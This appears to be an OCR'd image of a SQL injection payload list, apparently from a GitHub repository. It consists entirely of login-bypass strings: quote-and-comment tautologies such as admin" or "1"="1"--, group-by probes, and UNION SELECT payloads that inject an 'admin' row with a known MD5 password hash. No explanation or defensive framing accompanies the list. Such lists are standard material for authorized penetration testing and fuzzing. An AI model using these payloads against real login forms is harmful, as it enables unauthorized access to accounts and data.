 ```
admin" or "1"="1"--
admin" or "1"="1"#
admin" or "1"="1"/*
admin"or 1=1 or ""="
admin" or 1=1
admin" or 1=1--
admin" or 1=1#
admin" or 1=1/*
admin") or ("1"="1
admin") or ("1"="1"--
admin") or ("1"="1"#
admin") or ("1"="1"/*
admin") or "1"="1
admin") or "1"="1"--
admin") or "1"="1"#
admin") or "1"="1"/*
1234 " AND 1=0 UNION ALL SELECT "admin", "81dc9bdb52d04dc20036dbd8313ed055
==
=
'
' --
' #
' –
'--
'/*
'#
" --
" #
"/*
' and 1='1
' and a='a
 or 1=1
 or true
' or ''='
" or ""="
1′) and '1′='1–
' AND 1=0 UNION ALL SELECT '', '81dc9bdb52d04dc20036dbd8313ed055
" AND 1=0 UNION ALL SELECT "", "81dc9bdb52d04dc20036dbd8313ed055
 and 1=1
 and 1=1–
' and 'one'='one
' and 'one'='one–
' group by password having 1=1--
' group by userid having 1=1--
' group by username having 1=1--
 like '%'
 or 0=0 --
 or 0=0 #
 or 0=0 –
' or         0=0 #
' or 0=0 --
' or 0=0 #
' or 0=0 –
" or 0=0 --
" or 0=0 #
" or 0=0 –
%' or '0'='0
 or 1=1
 or 1=1--
 or 1=1/*
 or 1=1#
 or 1=1–
' or 1=1--
```